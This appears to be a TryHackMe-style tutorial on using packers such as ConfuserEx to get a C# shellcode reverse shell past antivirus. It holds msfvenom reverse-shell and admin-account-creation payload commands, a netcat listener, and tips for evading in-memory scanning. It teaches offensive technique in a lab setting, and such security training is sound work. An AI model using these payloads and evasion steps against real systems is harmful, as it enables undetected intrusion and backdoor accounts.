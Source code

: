 # Packers for AV Evasion

Another method to defeat disk-based AV detection is to use a **packer**. Packers are software tools that take a program as input and transform it so that its structure looks different, but its functionality remains the same. Packers serve two main purposes:

- **Compress the program** to reduce its size.
- **Protect the program** from reverse engineering.

Packers are commonly used by software developers to protect their software from being reverse engineered or cracked. They achieve this by applying a mix of transformations, such as compression, encryption, and adding debugging protections. As a result, packers are also frequently used to obfuscate malware.

Some popular packers include **UPX**, **MPRESS**, **Themida**, and others.

---

## How Packing Works

While each packer operates differently, the basic process is similar:

1. The packer transforms the original application code using a packing function.
2. The packed application contains obfuscated code and an embedded unpacker stub.
3. The executable's entry point is redirected to the unpacker.

**Execution flow of a packed application:**

1. The unpacker runs first.
2. It reads and unpacks the original application code into memory.
3. Execution is transferred to the unpacked code.

---

## Packers vs. Antivirus Solutions

Packers help bypass AV solutions by transforming executables so they no longer match known malware signatures. For example, a reverse shell executable flagged by AV can be packed to evade detection.

However, AV solutions may still detect packed applications because:

- The unpacker stub itself may have a known signature.
- AVs with in-memory scanning can detect the unpacked code during execution.

---

## Example: Packing a C# Shellcode Payload

Let's start with a basic C# shellcode runner (e.g., `UnEncStagelessPayload.cs`). Generate shellcode with msfvenom:

```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=7478 -f csharp
```

Compile the payload:

```sh
csc UnEncStagelessPayload.cs
```

Upload the executable to the THM Antivirus Check! page—it should be flagged. Now, let's pack it using **ConfuserEx** (for .NET payloads):

1. Open ConfuserEx and set your desktop as the base directory.
2. Drag and drop your executable into the interface.
3. Go to the **Settings** tab, select your payload, and click "+" to add a rule named "true".
4. Enable compression and set the rule to the **Maximum** preset.
5. Go to the **Protect!** tab and click **Protect**.

The packed payload should now evade detection when uploaded to the AV checker. If you execute the payload and set up a netcat listener:

```sh
nc -lvp 7478
```

You should receive a shell.

---

## In-Memory Scanning and Evasion Tips

AVs like Windows Defender may still detect your shell after execution due to in-memory scanning (e.g., by hooking `CreateProcess()`).

**Tips to avoid detection:**

- **Wait before interacting:** After spawning the reverse shell, wait ~5 minutes before sending commands. AVs may stop scanning memory after initial process startup.
- **Use smaller payloads:** Smaller payloads are less likely to be detected. For example:

    ```sh
    msfvenom -a x64 -p windows/x64/exec CMD='net user pwnd Password321 /add;net localgroup administrators pwnd /add' -f csharp
    ```

- **Spawn a new process:** From your reverse shell, run `cmd.exe` again. The AV may kill your payload process but not the new `cmd.exe`.

Every AV behaves differently, so experiment and observe any unusual behaviors during testing.

